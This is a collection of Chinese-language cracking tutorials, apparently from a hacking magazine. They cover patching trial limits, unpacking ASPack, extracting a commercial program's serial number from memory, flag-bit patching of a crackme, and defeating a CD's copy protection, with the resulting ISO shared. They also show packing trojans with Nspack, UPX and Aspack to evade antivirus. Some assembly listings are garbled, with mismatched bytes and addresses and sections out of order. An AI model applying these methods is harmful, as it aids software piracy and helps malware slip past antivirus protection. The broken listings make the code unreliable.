00405E5C  A1 1C086700      MOV EAX,DWORD PTR DS:[67081C]
00405E61  89442408         MOV DWORD PTR SS:[ESP+8],EAX
00405E65  B9 64000000      MOV ECX,64
00405E6A  68 9CF75D00      PUSH 005DF79C
```

> **汇编知识恶补：**  
> `MOV A,B` 把 B 的值送到 A；`DWORD PTR` 指明操作数大小；`DS:[addr]` 表示从数据段某地址取值。

这里 `MOV ECX,64` 的 `64` 为十六进制（即十进制 100）。将其改大后可增大试用次数。

```asm
00405E6F  2BCE        SUB ECX,ESI
00405E71  8D54240C    LEA EDX,DWORD PTR SS:[ESP+C]
00405E75  51          PUSH ECX
```

> **汇编知识恶补：**  
> `SUB A,B` 为 A 减 B；`LEA` 取地址；`PUSH ECX` 把 ECX 压栈供后续调用使用。

若把 `SUB ECX,ESI` 改为 `ADD ECX,ESI`，每用一次反而增加剩余次数，可实现“越用越多”的效果。

## 六、总结

文中三种方法任选其一都可突破次数限制；关键在于理解相关汇编逻辑并正确修改指令。

- 1. **命令行断点**：文中提到可用命令方式下断点，其作用与常规断点类似，但在准确性方面更高，可在程序用到的函数参数中进行选择，例如可在 `MessageBoxA` 上下断点以快速定位。  
- 2. **软件的使用次数**：一般情况下只要能设法使软件成功注册，使用次数限制也就随之解除；文中同时提醒不要随意传播破解后的商业软件。

最后提醒大家要多练习、尊重作者劳动成果，不要轻易将破解后的商业软件随意发布到网上。并提到文中涉及的工具如 pdf2word、UPXShellEx、OllyDBG、脱壳后的 pdf2word.exe 光盘中已收录。

## 破解夏令营——脱壳、破解、个性化之一条龙


开篇正文：说明很多初学者希望亲手破解软件并发布，文章将以“脱壳、破解、个性化”为主线进行实战。随后以“简历电邮版 2.2”作为示例，介绍其注册限制与分析思路。


继续正文：下载并安装软件后，用 PEiD 检查 `mailresume.exe`，识别为 ASPack 壳；接着介绍通过通用脱壳机进行“检测入口点”“脱壳”等步骤，并提示是否使用 ImpREC 重建输入表。


## 神秘园

选择“是”，这样就很轻松地脱壳完了。脱壳后生成的文件在同一目录下，名字是 `mailresume.exe.unpacked_.exe`。

有必要说一说手动脱壳，毕竟手动脱壳才是我们要掌握的东西……对于这个壳我推荐使用 ESP 定律来脱。首先用 OllyICE（OllyDBG）载入，选择“否”不带壳分析，否则将是带壳分析，这样可脱不了壳。


程序停在 `00607001 > 60 pushad` 处……按 F8 单步运行，来到 `00607002 E8 03000000 call 0060700A`（图6），注意右边“寄存器(FPU)”窗口的 ESP 和 EIP 值都会变红。

```asm
00607001  60             pushad
00607002  E8 03000000    call 0060700A
```

使用鼠标选中 ESP 值，右键“数据窗口中跟随”（图7），在跟随窗口首地址处设置“断点 → 硬件访问 → Word”（图8）。按 F9 后来到 `006073B0 75 08 jnz short 006073BA`，连续按 3 次 F8 可跳到真正入口点 OEP。


> **关键词解释：dump**  
> dump 为转存。Windows 可执行文件运行时会按规则装载到内存中；在 OEP 处将内存中的完整映像转存为文件即为 dump。很多 dump 出来的文件还需修复才能正常运行。

脱壳后开始破解：在软件“帮助与注册”里选择“注册”可见注册框。通常这类软件只比较输入值与内置注册码是否一致，输入正确则注册成功，不同则无提示。


对于这种简单软件可直接用 WinHex 处理：先运行简历电邮版，在注册框随意输入注册码并确定；随后切到 WinHex，在主菜单选择“工具”→“RAM 编辑器”，找到 `mailresume.exe.unpacked_.exe`（如果你是运行带壳的那个程序就是 `mailresume.exe`）。


然后选择“Primary Memory”，会出现一个提示，按“OK”就行了。来到内存编辑界面，我们在菜单里选择“搜索”→“查找文本”，输入我们刚才填的假注册码，点“OK”后光标就会跳到假注册码处。我们向下慢慢找，终于找到一串数字（图13），直觉告诉我们，不出意外的话，这多半就是注册码了！

将它们全部选中，然后使用 Ctrl+C 复制到一个文本文件里。可以清楚地看到注册码就是：`S-1-5-21-527237240-1708537768-1675128179-500`，直接输入即可完成注册。

注册后我们就可以无限制地使用这个软件了。但是很多人还会想：能不能把软件里改成自己的名字？当然可以。Let’s go~ 拿出资源修改软件 ResScope，个人感觉这个软件比 Resource Hacker 和 eXeScope 都好。

这款工具修改资源，经常会出现“EXE 文件被压缩”这样的提示，还要使用 FixRes 这个软件来修复，但是使用 ResScope 不用修复就可以修改，甚至还可以直接修改带壳的软件！我强烈推荐各位菜鸟使用这款软件。

运行 ResScope，点击“文件”→“打开”，选择并载入已经脱壳的文件 `mailresume.exe.unpacked_.exe`，找到“RCDATA”→“TMAINFORM”，第一个中文就是标题了，如图14。

各位菜鸟不用客气了，尽情地改吧！其它有中文的地方都可以改的，不过最好不要把软件重要提示给改了，会影响用户的使用哦！


## 小编点评

这一次破解是比较轻松和容易的，他用 WinHex 查看内存找出了脱壳文本注册码。其实很多是关键经验的，注册机注册码逻辑在写注册流程的时候让注册码直接来自用户输入的信息做了比较。这就出现了一个问题：该注册码一定会在某一时刻明文地出现在内存的某一位置。根据有经验的朋友说，这个位置一般是在我们将要输入的注册码上下 `0x90` 偏移处，但是能不能找到就得看大家的经验和直觉了。

（文章中涉及到的 PEiD、BoXer 修改版、ResScope、简历包破解版、WinHex 光盘中已收录）


## 网页文章无法复制——最简单的绝招

很多资料性的网络文章往往在网页禁止使用“复制”“粘贴”的命令。破解方法很简单：单击 IE 浏览器的“工具”→“Internet 选项”→“安全”，将其中的“Internet”的安全级别设为最高级别，确定后刷新网页即可。安全级别最高的时候，一切控件和脚本均不能运行，再厉害的网页限制手段统统全部作废。

## 文件和文件夹显示为蓝色和绿色

这些文件和文件夹属于加密或压缩的 NTFS 文件，属正常现象。如果不希望显示为蓝色，可以打开“我的电脑”，依次单击“工具”菜单→“文件夹选项”→“查看”，在列表中取消“用彩色显示加密或压缩的 NTFS 文件”，然后单击“确定”按钮退出。

## 从零开始学破解之（七）

### 标志位爆破法


黑客X档案的菜鸟读者们在经过了以前课程的学习后，应该可以通过爆破的方法来破解软件了（包括跳过注册码验证、解除各种功能、时间、次数的限制等），不过我们所提到的“爆破”都是通过修改关键的跳转代码或是改成 JMP 无条件跳转指令来实现的，既简单易做效果又好。

可是有的软件在这样修改后，虽然显示的是“已经注册”，但使用时却仍旧有诸多限制，与没有注册时的情况一模一样。这就是高手们经常提到的“伪注册”（“伪注册”是指虽然软件显示的是注册版本，但是事实上却不是，软件依然存在很多限制）。今天就要为大家介绍一种全新的爆破方法，可以完美地解决这个问题。这就是暴力破解的最高境界——标志位破解法！

标志位是汇编语言中的一个概念，顾名思义就是在某一个东西上做一个标志，这样一来就可以把特定的目标与其它的东西区分开来。那么在软件破解当中这个“标志位”又该怎样去理解呢？

### 我们来复习一下，一般软件的注册码验证流程：

1. 收集用户输入的注册名和注册码；
2. 使用一定的注册算法，得到一个计算的结果（真正的注册码）；
3. 把真正的注册码与我们输入的注册码进行比较；
4. 若两者相等则提示注册成功，不相等则提示失败。

对于这样的验证流程，使用修改跳转的方法相当有效。但是还有一些软件的注册验证流程与这个经典过程有所不同。

- 它们的流程是这样的：

1. 收集用户输入的注册名和注册码；
2. 计算出正确的注册码；
3. 比较输入的注册码和正确注册码是否相同；
4. 如果两个值相等就把某一个寄存器的值设为 1，如果不相等就设为 0；
5. 比较寄存器里的值是否和预先设置的值相匹配，匹配则注册成功，否则注册失败。

> 小知识：寄存器  
> 这是汇编中常见术语。可以理解为 CPU 内部用于暂存数据的高速存储单元，不同寄存器有不同用途。

这个过程就像老师批改试卷一样，做对了就划“√”，做错了就打“×”。这种做标记的地方叫做寄存器，寄存器里的值可以是 1 或者 0，一般来说 1 表示注册成功，0 表示失败。

1. 关键跳转不易被明显定位，给修改跳转带来了难度；
2. 如果只修改跳转而不修改寄存器中的位，仍可能注册不成功。

当某些软件采用了这样的一个验证方式，普通的爆破方法就很难奏效了。所以我们必须把关注的重点从“跳转”上转移到寄存器的值，如何找到关键寄存器的值，又如何修改呢？下面来看一个实例。

我们要用到一个练习标志位爆破的 CRACKME，在输入不正确的注册码时没有反应，输入正确后才提示注册成功。使用 OD 打开后，通过“超级字符串查找（FIND ASCII）”定位到注册成功提示信息（图1）。


在出现提示的这一行上双击就来到了对应的代码处（图2），为了方便说明把要用到的代码提取出来。

```asm
00401257    E8 A4FDFFFF      call 00401000
0040125C    83C4 08          add esp,8
0040125F    83F8 01          cmp eax,1
00401262    A3 64C64000      mov dword ptr [406C64],eax
00401267    75 65            jnz short 004012CE
...
0040126F    6A 40            push 40
00401271    68 80604000      push 00406080
00401276    68 50604000      push 00406050
0040127B    52               push edx
0040127C    FF15 C4504000    call dword ptr [<&USER32.MessageBoxA>]
```


“好长的一段代码呀！”既然看起来有点困难，就把它分成两部分来看，先注意后面的代码。

```asm
0040126F    6A 40            push 40
00401271    68 80604000      push 00406080
00401276    68 50604000      push 00406050
...
00401278    52               push edx
0040127C    FF15 C4504000    call dword ptr [<&USER32.MessageBoxA>]
```

通过 OD 给出的注释“good job! — cracked!”，再结合 `call dword ptr [<&USER32.MessageBoxA>]`，很容易知道这几句代码的作用是弹出一个窗口并告诉我们“干得不错，程序被破解了”。接着向上看：

```asm
00401257  E8 A4FDFFFF      call 00401000
0040125C  83C4 08          add esp, 8
0040125F  83F8 01          cmp eax, 1
00401262  A3 646C4000      mov dword ptr [406C64], eax
00401267  75 65            jnz short 004012CE
```

这一部分代码初看可能有些难度。先看 `00401267: jnz short 004012CE`，即不相等则跳转；再看 `0040125F: cmp eax, 1`，即将 EAX 与 1 比较。

> **小提示：什么是 EAX？**  
> EAX 是寄存器名，可理解为一个“小盒子”，程序运行时会在其中暂存数据。

上面的 `cmp eax, 1` 就是把当前 EAX 中的值与 1 比较。若不等于 1 就跳转，等于 1 则进入成功注册分支。理解这一点后，思路就很清晰了。

```asm
00401257  E8 A4FDFFFF      call 00401000
0040125C  83C4 08          add esp, 8
0040125F  83F8 01          cmp eax, 1
00401262  A3 646C4000      mov dword ptr [406C64], eax
00401267  75 65            jnz short 004012CE
```

这段代码主要作用是比较标志位（`cmp eax, 1`）并据此判断（`jnz short 004012CE`）。既然只有值为 1 才成功，那么是否可以手动让 EAX=1？

```asm
0040125F  83F8 01          cmp eax, 1
00401262  A3 646C4000      mov dword ptr [406C64], eax
00401267  75 65            jnz short 004012CE
```

这三句代码非常重要，涉及标志位判断，不能随意修改。`0040125C: add esp, 8` 用于平衡堆栈，破坏后程序可能无法正常运行。

> **小提示：** 在 Windows 中多个过程可能共享栈状态。分析与修改时若破坏调用现场，容易导致后续流程异常，因此要特别注意堆栈平衡相关语句。

因此重点落在 `00401257: call 00401000`。CALL 的作用是调用子程序，执行完后再返回当前位置。调试时应跟踪进入该子程序内部观察其具体行为。

在 `00401257` 处下断点（如 F2），重载并运行程序，输入任意用户名和注册码后触发检查，可看到程序在该处中断，说明这里是关键入口。

> **小知识：F7 和 F8 的区别**  
> F7（Step Into）会进入 CALL 子程序内部；F8（Step Over）执行完整个 CALL 后停在下一句。

按下 F7 后进入子程序流程。这里实际上是计算并校验注册码的过程，因此可在该子程序中继续分析与修改。


图3


“所有修改”，保存文件为 `CRACK2.exe`。运行这个 `CRACK2.exe`，什么都不输入，按下“Check”按钮，注册成功的提示出现了！说明我们的标志位篡改，大功告成。

## 总结

标志位爆破法虽然是一种比较高级的破解方法，但是由于其原理简单易懂，这种方法也已经被很多人掌握了。学习了“标志位”爆破法之后，最容易出现的问题就是思路的僵化。需要给大家指出的是，不同的软件对标志位的选择以及赋值的含义是不尽相同的。本文中的标志位是寄存器“EAX”，其它软件可能会使用“EBX”或“ECX”来作为标志位……

## 小编点评

从《加密与破解》系列推出到现在，越来越多的菜鸟朋友已经反映起来有些吃力了。事实上这是很正常的，任何一门技术都需要前置知识……下一期开始的神秘园将刊登更基础的木马免杀连载系列文章，希望各位读者喜欢！

```asm
00401000 53            push ebx
00401001 8B5C24 00     mov ebx, dword ptr [esp+C]
```

为了让 EAX 中的值在子程序运行结束后变成 1，我们可以使用 `mov eax, 1` 来达到效果……


把刚才想好的两句代码写进去，修改成下面的样子，如图6。

```asm
00401000  B8 01000000  mov eax,1
00401005  C3           retn
```

好了，修改已经完成了，单击右键选择“复制到可执行文件”……

## 为了本本健康，多思路破解多媒体教程


我不是 Cracker，但我学习 Crack，我破解别人的软件，但我却不希望别人破解我的软件。对某些人来说，学习 Crack 是为了侵犯别人的权益，而下面这篇简单的 Crack 教程，却是为了保护我们用户自身的权益。

本文的主角是一套叫做“大学数学立体化教材”的书……每次把这张光盘放进我可爱的本本的光驱，它都会产生剧烈的震动，发出吓人的噪音。

我的数学成绩，我决定把这光盘 Copy 下来。把光盘复制下来，说起来简单，可做起来却不是那么回事……我不服气，使用“线性代数多媒体教学系统”做为关键字，

## 神韵园

在百度上搜索了一下，找到了一个叫 www.cdlock.cn 的网站。这家公司是搞光盘加密的，还把那光盘放在他们的成功案例里（真汗呀）。我摘录了几点他们自己写的所用的加密技术的特点：

- 二、用户系统按照映像方式整盘拷贝后不能运行。
- 三、用户系统按照文件方式重新制作后不能运行。
- 四、不能通过虚拟光驱的形式在硬盘上运行。

看来这个光盘还真不能小瞧！不行，为了我的本本，我要冷静，来继续分析！在这玩意儿前受到了挫折后，我认真分析了光盘，得出了如下的信息（图1）。

- ASPIDRV：不知道是做什么的
- Axxds：主文件，运行后会出现多媒体界面
- Main：不知道是做什么的，单独运行没有任何反应


上面所有的文件一共才 3.64M，然而整个光盘信息显示的却是 175M，大部分的主要文件被加密隐藏了。光盘运行后的界面如图2所示，自动播放或直接打开 Axxds.exe 出现多媒体界面，该界面实际上是一个加了 EXE 壳的 FLASH。

通过查看版本，是老旧的 FLASH5。每打开一个部分，光驱都会狂震 2—3 秒。单独把 Axxds 复制出来，不能运行。把所有可见数据复制出来，同样也不能运行。使用 Process Explorer 查看进程，只有 Axxds.exe 一个进程，并且其程序信息是 Flash Player5 的简洁信息。


继续分析光盘的运行过程，总结出可能的流程：Axxds.exe 只是一个普通的播放器，它读取 Flash 文件并在自身显示。但因某种加密技术的存在，我们无法看见它所读取的文件，更不用说浏览和复制。我们要研究的话，只能从 Axxds.exe 入手了。

现在思路就有了！既然文件被 Axxds.exe 读进去了，那么使用 WinHex 读取其内存，可不可以把 Flash 文件 Dump 出来呢？为了证实这一点，我开始新一轮的实验。

打开 Axxds.exe，待它加载进去后，使用 WinHex 打开其内存（工具→RAM 编辑器，选择 Axxds.exe 的进程，选择“整个内存”）。接下来就是把 Flash 文件提取出来。


在提取之前，我说一些关于 Flash 文件结构的知识。Flash 的文件头由 8 个字节构成，前三个字节是字符串“FWS”，十六进制是“#46 #57 #53”，第四个字节是 FLASH 的版本。既然光盘使用的是 Flash5，那么这里的值应该是“#05”。第 5—8 字节是一个长整型，指的是 Flash 连上文件头的 8 个字节的大小。

了解了上面的背景知识，我们就可以得出破解的方法了：查找“#46 #57 #53 #05”，从后四个字节得出文件长度，在 WinHex 中选择并复制出来就是破解出来的 Flash 文件了。

实际上，在 Axxds.exe 的内存里存在多个 Flash 文件头。具体操作如下：[搜索]→[查找16进制值]，输入 46575305，查找。找到的数据如图3所示。选择文件头的 8 个字节，[编辑]→[定义块]，弹出如图4所示的窗口。打开 Windows 的计算器，设为“科学型”，计算 D184 + 0005090D − 1，结果为 5DA90，把结果填进“结尾”栏，确定后，就能把 Flash 整个文件选取出来。再 [编辑]→[复制区块]→[进入新文件]，暂命名为 **.swf 保存。

我保存了两个 Flash，其中只有一个能打开，打开界面真的跟多媒体教程的界面一样，看来成功了！继续试着打开里面的章节，发现出问题了，居然只有主界面能打开，里面的章节却全部不见了！

使用 SWFDecompiler 打开主 Flash，发现其 ActionScript 里有大量调用外部 Flash 的语句。尝试在 Axxds.exe 打开一个小章节，再查看其内存，再搜索一次 Flash 文件，发现其内容和主 Flash 文件变多了。Dump 出来后，果然是小章节的内容！按 ActionScript 重命名后，这个小节是可用了，但是其它的依然不可用。

这意味着我们得不断循环这一过程：在 Axxds.exe 打开一个章节，使用 WinHex 将 Flash 小节 Dump 出来，再按 ActionScript 重命名一次。问题是 ActionScript 里调用的文件不下几百个，大量的劳动意味着这个方案行不通。

如何解决这个问题呢？既然不能在文件读入后提取，那能不能在文件载入前截获呢？要监视文件，我首先想到的是 FileMon。这家伙能监视所有你想得到的文件操作，如果 Axxds.exe 读入其它 Flash 文件，那应该会在 FileMon 里显示。

我试着使用 FileMon，在分区那里只选择 Z 盘（Z 盘是我的物理光驱），再在 Axxds.exe 打开一个小章节。果然，载入 Flash 的操作被 FileMon 给监视到了（图5）。记录显示，Axxds.exe 读入了一个路径为 Z:\Jianchen\... 的 swf 文件。


Ch010101.swf 的文件。不会吧，文件的路径居然在这里显示出来了。立刻在 IE 里输入这个文件的路径，打开失败，再试 Z:\Jianchen\，同样是打开失败。难道真的不行？又随手试了一下在 Firefox 打开 Z:\Jianchen\，奇迹出现了，如图6。

整个目录居然显示出来了！试着保存了一个文件，真的能打开。这个我哭笑不得。之前一大堆的工作也处理不了的问题居然被小小的 Firefox 给解决了！但是使用 Firefox 逐个保存也不是办法，转而想到，既然 Firefox 和 Flash Player5 都能看到这个目录，难道其它的程序不行吗？经过测试，WinRAR 也能读出这个目录。真是山重水复疑无路，柳暗花明又一村呀！既然 WinRAR 能读出数据，下面的就好办了。

整个破解过程到此就该结束了，使用 WinRAR 把所有数据复制出来（让我的光驱足足跑了四分钟），共约 165M，一千多个文件（还好刚才没有 Dump）。把主程序的 EXE 壳脱掉，加上 Flash Player8 的壳（因为这个是中文的，好看点，爆机文件也快点）写个 Autorun.inf，压成 ISO 文件就完成所有工作了。接下来还试了《微积分多媒体教学系统》，居然一样是复制同一个目录，真汗！

我的本本的光驱终于获得解放了，不用再一边看着教程一边担心光驱会不会坏掉了。


破解方法并不复杂，从整个破解过程来看，尽管走了很多弯路，最后还是搞定了。为了尊重版权，最后的 ISO 也只是在小范围内共享，毕竟很多人买了光盘，但却不能用。虽然目的达到，但还遗有一大堆的疑问，比如为什么 Firefox 能读取加密目录而 IE 不能？为什么这种看起来不复杂的加密方法却能让一大堆国内外克隆软件束手无策？我又看了一下 CDLOCK 这家公司的网站，里面写的东西确实挺发人深思。一个标称“历经八年烽火，占据半壁江山”的公司，尽管把无数的克隆软件挑下马，却不敌一个小小的 WinRAR，难道这不值得行业深思吗？最后发了 Email 告诉 cdlock 他们破解方法，希望他们在这个行业越走越远，同时也希望他们能够多考虑用户光驱的承受力！

> 小编：这篇文章和一般的破解文章不同，前半部分很难，而且使用 DUMP 的方法不仅操作繁琐，可行性也不高。后半部分很简单，可是效果却很好。选择本文一个很大的原因是想突破很长时间以来神韵园只在爆破类技术上的介绍。同时，作者在破解过程中的清晰缜密的思路也相当值得我们参考。希望大家在破解的时候，视角和思路都能拓展得更开放一些。

## 从零开始学破解之（八）

### 壳之初体验

Talent Feng

在经过了上堂课的学习后，破解系列的知识就告一段落了，相信我们在前边学习的那些方法已经足以应付普通的软件破解了。但有一点要注意，我们在前边演示的软件大多数都是没有加壳的，因此，破解起来相对容易，而对于那些加壳的软件，我们在破解前就得先脱掉壳才行了。

壳这个概念对小菜们来说又熟悉又陌生，当我们接触木马免杀、软件破解这些概念时都会遇到。那么这个“壳”到底是一个什么东西呢？要理解这个概念，还是先从壳的作用开始说起吧。

为什么制作免杀木马的时候要用到壳呢？因为我们小菜轻易地就可以被杀毒软件发现，所以就必须给木马穿一层“衣服”把它打扮一下，把木马装扮成一个正常的程序，这样就可以骗过杀毒软件了。所以大家可以看出来，“壳”在免杀中的作用就是伪装风险程序，以逃避杀毒软件的查杀。

那在软件破解中“壳”又是干什么用的呢？小菜们都很有感触，当我们拿下一个“肉鸡”的时候都会千方百计地保护胜利的果实。那假如我们是软件作者呢？当然此时的心情也是不希望任何人都随意地修改自己的软件。于是就要想办法装饰，不让我们的成果变成别人的“肉鸡”，这个时候各种保护手段就出现了。“加壳”就是其中使用最为广泛的一种手段。一般来说加壳后程序已经面目全非了，所有的代码都变了样，这样一来破解的人就傻眼了。当然这样一来软件也就被保护起来了。

说到这里，菜鸟们应该可以看出一些门道了，综合一下免杀与破解中壳的作用，我们可以总结出壳的“任务”就是为了保护相应的程序。

壳保护程序的过程是相当复杂的，小菜们也没必要去追究详细的过程。但是本文只很想学“刨壳”这项技术，怎么刨呢？看来小菜们还是想得太多了。其实学习加壳并不一定要去学很多的专业知识，如今各种各样的加壳工具可以轻松地帮助我们完成任务。所以，大家只需要学习加壳软件的使用方法就可以了。这也是我们今天要说的重点内容。

在正式开始前先给大家介绍一些与“壳”有关的概念。

虽然如今的壳五花八门，但总的来说可以分为两个大类：一种是压缩壳，一种是加密壳。加密壳的保护效果要强于压缩壳，可是使用起来有些难度，小菜们掌握起来也不是很容易，因此我主要给大家介绍一下压缩壳的使用方法。

目前最有代表性的压缩壳有 Aspack、UPX 和 Nspack，其中 Aspack 和 UPX 可以说是“壳”坛名宿，经历了岁月的洗礼依然屹立不倒。而 Nspack 则是国产压缩壳的代表制作，由于它的兼容性非常优秀，所以在制作免杀木马时被广泛地使用。我们就以这三款最具代表性的压缩壳为例，来给大家说说压缩壳的使用方法。从国产新秀 Nspack 给大家说起吧。

### Nspack 简介

Nspack 就是大名鼎鼎的“北斗”，一款非常优秀的国产压缩壳，除了较高的压缩比例（加壳后的程序比原程序小很多）和不错的保护强度外，最吸引人的就是北斗壳超常的兼容性。一般来说某一个程序被加了壳之后，就无法继续加壳了，比如有的木马使用 Aspack 加壳后，如果再用 UPX 加壳就会出现错误，UPX 会自动提示我们，程序已经被压缩无法继续压缩（经常玩免杀的朋友肯定深有体会）。如果使用 Nspack 的话一切就变得不一样了，被“北斗”压缩过的程序还可以继续被压缩。简单地说就是一个木马如果加了一层“北斗”壳，那么我们还可以继续使用 Aspack、UPX 等其它的加壳软件给木马加壳，也就是说可以实现对木马的多层加壳。有了多层壳的保护，木马自然也就更安全了。

那 Nspack 具体是如何使用的呢？Nspack 的主界面上有三个主选项：文件、选项和帮助（图1）。打开文件选项我们可以选择要加壳的文件、执行压缩命令以及退出 Nspack；在选项菜单中如果设置成“总在最前面”，那么其它的应用程序窗口就无法覆盖在 Nspack 之上，这可以方便我们的使用。如果在使用中出现了一些问题需要得到解答，打开帮助菜单就可以通过软件说明和上网解答两种方式来解决疑问。


图1

### 第一步：检查

首先我们要对记事本程序检查一下在加壳之前“记事本”的基本情况。打开 PEID，然后选择打开“记事本”，很快结果就出来了。这时 PEID 显示的信息告诉我们这个程序是使用 C++ 编写的，从另一个角度来说就是“这个程序没有被加壳”（图2）。到这里第一步就完成了，我们得到一个关键信息就是程序没有被加壳。


图2

### 第二步：使用 Nspack 给记事本加壳

运行 Nspack，使用 Nspack 加壳的第一步就是选定要加壳的目标文件。在 Nspack 中可以使用三种方式来选择要加壳的文件。第一种方法最为简单，只需要直接把要加壳的程序拖拽到 Nspack 的主界面上来，具体的操作就像平时把一个文件拖来拖去一样。

用拖拽的方法可以快捷地选定要加壳的文件，如果操作成功，那么目标文件的路径就会出现在 Nspack 的界面上（图3）。但是有的时候要加壳的程序拖拽起来不方便，那么就可以使用第二种方法来选择要加壳的文件：单击 Nspack 主界面上的“文件”按钮，在弹出的菜单中选择“打开”，然后通过打开的窗口来找到准备加壳的程序就可以了。同样，操作成功的话文件的路径就会显示在主界面上。第三种方法与第一种方法很类似，不过比起前者来更为方便快捷，只需要单击 Nspack 主界面右下角的“打开”按钮，就可以选择要加壳的程序了。


图3

选择好了目标程序后，单击主界面上的“压缩”按钮，Nspack 就会自动完成压缩的工作了，同时压缩的进度和一些详细信息也会显示出来，对加壳的整个过程我们一目了然。当出现“文件压缩完成”这个提示的时候，就表示加壳的工作已经完成了（图4）。我们来检验一下加壳的效果：首先运行一下加壳后的记事本，发现记事本能够成功运行；然后使用 PEID 检测一下文件的信息，可以看到如图5所示的信息。以上两点就证明，记事本已经成功地使用 Nspack 加壳了，是不是很简单呢？


图4


图5

### UPX 简介

介绍完了 Nspack，我们继续来说说 UPX，这个壳也是久负盛名，可以算作“壳”界的元老级工具。由于名声太大，导致研究它的人也很多，现在新手们经过简单的学习就可以轻松脱掉使用 UPX 加壳过的软件，所以已经很少有软件使用 UPX 来加壳保护了。但是 UPX 并没有因此而销声匿迹，由于 UPX 的简单易用和非常好的免杀效果，在目前流行的加壳免杀技术中 UPX 又焕发出了新的生机。说了这么多，如何具体地使用 UPX 来给目标软件加壳呢？还是以记事本为例来给大家介绍一下 UPX 的具体使用方法。

> **小提示：**原版的 UPX 是没有界面的，而是使用输入命令的方式在 DOS 下使用。为了方便大家的使用，高手们已经制作出了拥有图形界面的 UPX，这就是著名的 UPXShell。

运行 UPXShell，如果是第一次运行，会弹出如图6所示的提示，按下“OK”按钮后 UPXShell 会要求我们进行一些设置（图7）。大家不用着急如何去设置，保留默认的设置就可以了，单击“确定”后就进入 UPXShell 的主界面了（图8）。


图6


图7


图8

界面上的菜单简单明了，现在我们就要使用 UPXShell 给记事本加上一层壳，当然第一步还是要给 UPXShell 指明目标。单击“打开”按钮，在弹出的窗口中找到并选择“记事本”。选择好之后，我们还需要给加壳后的文件重新起一个名字，如果不给新的文件起名的话，UPXShell 也会自动为它起一个名字。点击“输出”按钮，在弹出的窗口里为加壳后的文件选择一个路径并起一个名字（图9）。如果设置成功了，那么在“新文件名”一栏中就会显示出我们选择的路径和文件名。做完这一步之后单击“压缩”按钮，UPXShell 就开始加壳的工作了，但是如果在使用中遇到了问题，导致加壳后的程序不能运行那可就麻烦了。UPXShell 也为我们想到了这一点，所以专门为大家提供了“检测”功能。在完成了以上的设置后，这时不要急着选择“压缩”，而是单击“测试”按钮，如果我们看到被加壳的程序正常运行了，那么就表示整个加壳过程不会出现错误。经过了检测，我们就可以放心地进行真正的加壳操作了。虽然这样做有一点麻烦，但是大家一定要养成这个测试的习惯，这对以后的学习和实战有很大的帮助。


现在单击“压缩”，UPXShell 会把详细的加壳信息显示出来（图10），使用 PEID 检查一下桌面上的那个记事本，PEID 会显示程序已经被加了 UPX 的壳了（图11）。出现了这样的信息就表示我们已经成功地给记事本加上了 UPX 的外壳。

### Aspack 简介

怎么样，大家有没有亲手使用 Nspack 或者 UPX 来加壳一个小程序呢？要记住，想要熟练地掌握加壳这项技术一定要多多实践、多多练习才行。说完了 Nspack 和 UPX，下一个要介绍的就是 Aspack 了。Aspack 也是一款泰斗级的加壳软件，与 UPX 相比 Aspack 更简单易用也更稳定，对软件的保护效果也更胜一筹，最主要的是有着非常高的压缩率，使得加壳后的程序与原程序相比“身材”成倍地缩小。因此虽然经历了时间的洗礼，但如今依然有不少的软件使用 Aspack 来加壳。

这一次我们的目标依然是“记事本”，Aspack 的使用方法比较简单，运行 Aspack 后的主界面如图12所示。主要有五个菜单按钮，依次是 Open File、Compress、Option、About、Help。其中前三个菜单与我们的使用关系最为密切。


使用 Aspack 时，打开目标文件可以单击“Open File”选项下的“Open”按钮（图13），并在窗口中找到目标文件的位置，这样目标文件就被载入了。下一步就是给文件加壳了，打开“Compress”选项，点击“GO”按钮（图14），Aspack 就开始加壳的工作了。当第一个进度条显示百分之百时，就表示加壳的工作已经完成了。检测一下加壳后的文件，单击“Test”按钮，如果被加壳的程序正常运行了，那么就表示加壳成功了。


现在我们会发现 Aspack 的界面上多了两个选项按钮出来；如果测试的时候遇到了加壳后的文件不能正常运行的情况，那就可以单击“Restore”选项来恢复文件，这保证了在加壳过程中出现错误的情况下源文件的安全（图15）。


如果加壳后的程序正常运行，而且我们也不需要保留源文件了，那么单击“Erase.bak”就可以将 Aspack 自动备份的源文件删除掉了。现在关掉 Aspack，使用 PEID 看看加壳后的文件，看到了吗？PEID 显示程序已经被 Aspack 2.12 加壳了（图16）。


最后再来强调一下，加壳的目的是为了保护程序，当然这个程序可以是我们编写的软件，也可以是我们的木马。本文中给大家详细讲解了 Nspack、UPX 和 Aspack 这三款加壳软件的使用。相信大家已经初步地掌握了加壳的方法了，但是作为小菜的一门必修课，在看完文章后一定要多做练习，争取做到见到一个程序就想给它加壳的程度，呵呵，总之一句：一定要实践，实践，再实践。

除了上述介绍的压缩壳外，还有一类壳叫做“加密壳”，与压缩壳相比较加密壳有什么特点？常见的加密壳都有哪些？怎样使用加密壳？这些疑问我们会在下一堂课中为大家细细讲来。

（文字中涉及到的工具 Nspack、UPX、Aspack 和 PEID，已收录在光盘中）


## 寻找“注册码”途径

猫风

我是一个菜鸟，就是因为看了《黑客X档案》上的“从零开始学破解”系列文章后，才开始走上软件破解这条路的。仗着自己对 IDA 稍有一点点的基础，冒冒失失地就闯进了几十次 crackme 的破解，开始享受破解的乐趣了。今天我就以破解实例的形式来谈一下常见的几种爆破方式，也算是对我所学知识的一个总结吧。为了方便菜鸟阅读，文中提到的关键位置在图中都已经标出来了。

我们要破解的是 eKH CrackMe 1.0。首先运行该程序，程序界面很简单，有 UserName 和 Serial 的输入框，另外还有一个 OK 按钮，可编辑的控件就这几个。随便输入一个用户名和密码，点击“OK”按钮，就会弹出一个错误提示窗口（后来查看代码证实它是一个标准的 msgbox），如图1。

为了确保它没有加壳，还是先用 PEID 检查一下吧（图2）。没有加壳，这是个好消息，程序是使用 Delphi 3.0 编写的。好了，该是 OllyDBG 上场的时候了。使用 OD 打开 eKH，在代码区域使用鼠标右键打开功能列表，选择“Ultra String Reference / Find ASCII”，如图3（实际上 Find ASCII 和 Find UNICODE 也可以）。

在打开的 Ultra String Reference 界面内找到刚才注册错误提示框中的内容“Wrong Serial Number !”（图4）。在该行代码区域上双击回到代码界面，就会定位到读入该数据的代码位置（图5）。上面的工作主要是定位关键代码，也就是破解中常说提到的“关键跳”的位置。接下来就是我们要说的主要内容——如何“爆破”掉它。

```asm
00427B73  jl   short 00427BA5   ; 小于时跳到错误提示
00427B99  call 00427A20         ; 验证用户名密码的函数
00427B9E  cmp  eax,0BC614E      ; 比较返回值
00427BA3  jge  short ...        ; 大于等于时提示成功
00427BA5  push 0                ; 错误信息
